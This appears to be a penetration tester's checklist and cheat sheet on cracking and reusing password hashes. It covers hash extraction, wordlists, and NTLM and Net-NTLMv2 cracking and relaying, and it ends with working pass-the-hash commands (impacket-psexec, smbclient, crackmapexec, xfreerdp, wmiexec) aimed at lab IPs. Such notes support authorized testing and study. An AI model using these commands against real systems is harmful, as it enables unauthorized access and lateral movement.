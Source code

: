 # **Basics of Cracking Passwords**

- [ ] Extract hashes
    \- Retrieve from DBs, Files or accessing files (dir traversal), foothold, ect.
    
- [ ] Format hashes
    
- [ ] Calculate the cracking time
    
- [ ] Prepare wordlist
    \- Mutations
    
- [ ] Attack the hash
    
    ## NTLM -
    
- [ ] Obtain and crack NTLM hashes
    
- [ ] Pass NTLM hashes
    
- [ ] Obtain and crack Net-NTLMv2 hashes
    
- [ ] Relay Net-NTLMv2 hashes
    
- [ ] Use Hash
    
    ```

   	   kali@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`
    
   	   smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
    
   	   crackmapexec smb 192.168.1.100 -u Administrator -p "Password123?" # Password
   	   crackmapexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" # NT Hash
  	   export KRB5CCNAME=/tmp/kerberos/admin.ccache; crackmapexec smb 192.168.1.100 -u admin --use-kcache # Kerberos
    
	    xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>

		wmiexec.py DOMAIN/username:password@10.10.10.10
		wmiexec.py DOMAIN/username@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0

    ```
    
